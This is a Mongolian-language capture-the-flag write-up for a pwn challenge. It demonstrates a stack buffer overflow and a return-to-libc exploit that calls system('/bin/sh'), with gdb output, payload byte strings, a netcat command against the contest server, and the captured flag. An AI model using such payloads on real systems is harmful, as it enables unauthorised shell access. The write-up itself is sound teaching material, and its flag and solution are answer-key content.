 # Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 `notused.c` дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй `n0t_us3d` хувьсагчын утгыг `system()` дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах Return address(EIP)  дээр call_me хаяг байршуулж ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + EBP(4 bytes) + return adrress(EIP)(4 bytes)  байдаг билээ. 

Үүнийг `gdb` дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь `0x43434343` буюу `CCCC` хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид `CCCC` -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул `[little endian](https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html)` буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин `system(/bin/bash)` хэрхэн дуудах вэ? 

Үүнд бид `[Return-to-Libc](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)` аргыг ашиглах юм.  Үндсэн санаа нь memory дээр байрших фүнкц утгуудыг дахин дуудаж өөрт ашигтай хувьлбарт оруулан ашиглана. 

|Top of stack        |    EBP    | EIP                         | Dummy return addr |    address of /bin/sh string |
|--------------------|-----------|-----------------------------|-------------------|------------------------------|
|AAAAAAAAAAAAAA      |   BBBB    |   addr of system function   |     DUMM          |   address of /bin/sh string  |


Эндээс бидэнд   `system`  фүнкцийн хаяг болон `/bin/sh` string ийн хаягууд хэрэг болож байна.

```
[root@reamb home]# objdump -D notused |grep system
08048390 <system@plt>:
 80484ea:       e8 a1 fe ff ff          call   8048390 <system@plt>
```
эндээс `system` фүнкцийн хаягийг олж авлаа. `/bin/sh` ийг харин энгийн debugger дээрээс харж болно. 


![notused.png](notused.png)



эндээс нийлүүлээд бичвэл. 
```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"' | ./notused
[+] Feed me more!!!
Segmentation fault
```

ажиллахгүй байгаа мэт байна тэхдээ цаанаа `system(/bin/sh)` ажиллаж байгаа gdb дээрээс харж болно. Энд `system(/bin/sh)` ажиллангуута тэр доороо хаагдаж байгаа юм. энийг аргалах амархан арга нь bash дээр `command; cat` хэмээн аргалах боломжтой юм. 



```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| ./notused
[+] Feed me more!!!
date
Mon Oct  8 18:15:22 +08 2018
whoami
root

```
Hurray! ажиллаж байна. 

одоо бид flag авахын тулд сервер рүү хүсэлтийг явуулна. 

```
[root@HZ1-dashboard home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| nc 218.100.84.106 9006
[+] Feed me more!!!
ls
chall
flag
pow.py
pwn
cat flag
HZ{r3t2l1b_w1ns!!}
```

flag `HZ{r3t2l1b_w1ns!!}`



## Other write-ups and resources

* none yet
